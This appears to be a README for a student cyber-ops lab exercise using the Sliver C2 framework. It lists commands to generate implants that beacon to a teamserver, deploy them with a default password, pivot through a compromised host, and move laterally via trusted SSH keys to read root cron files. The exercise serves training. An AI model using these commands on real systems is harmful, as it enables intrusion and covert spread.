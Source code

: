 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')\ 
3. Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`\
Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`\
Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`\
Naviagte to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`\
